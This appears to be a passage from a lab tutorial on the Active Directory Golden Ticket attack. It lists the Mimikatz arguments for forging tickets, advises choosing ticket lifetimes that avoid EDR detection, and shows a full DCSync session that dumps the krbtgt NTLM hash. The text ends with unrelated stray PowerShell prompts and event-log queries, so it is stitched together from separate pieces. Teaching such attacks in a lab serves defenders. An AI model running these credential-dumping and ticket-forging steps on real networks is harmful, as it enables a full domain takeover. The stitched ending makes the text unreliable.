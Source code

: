 We will not look as the means by which this is done, only the `execution`.

## The Attack

To perform the `Golden Ticket` attack, we can use `Mimikatz` with the following arguments:

- `/domain`: The domain's name.
- `/sid`: The domain's SID value.
- `/rc4`: The password's hash of `krbtgt`.
- `/user`: The username for which `Mimikatz` will issue the ticket (Windows 2019 blocks tickets if they are for inexistent users.)
- `/id`: Relative ID (last part of `SID`) for the user for whom `Mimikatz` will issue the ticket.

Additionally, advanced threat agents mostly will specify values for the `/renewmax `and `/endin` arguments, as otherwise, Mimikatz will generate the ticket(s) with a lifetime of 10 years, making it very easy to detect by `EDRs`:

- `/renewmax`: The maximum number of days the ticket can be renewed.
- `/endin`: End-of-life for the ticket.

So first, we need to obtain the `password's hash of krbtgt` and the `SID value of the Domain`. We can utilize `DCSync` with Rocky's account from the previous attack to obtain the hash:

```PowerShell
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
<SNIP>
```


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *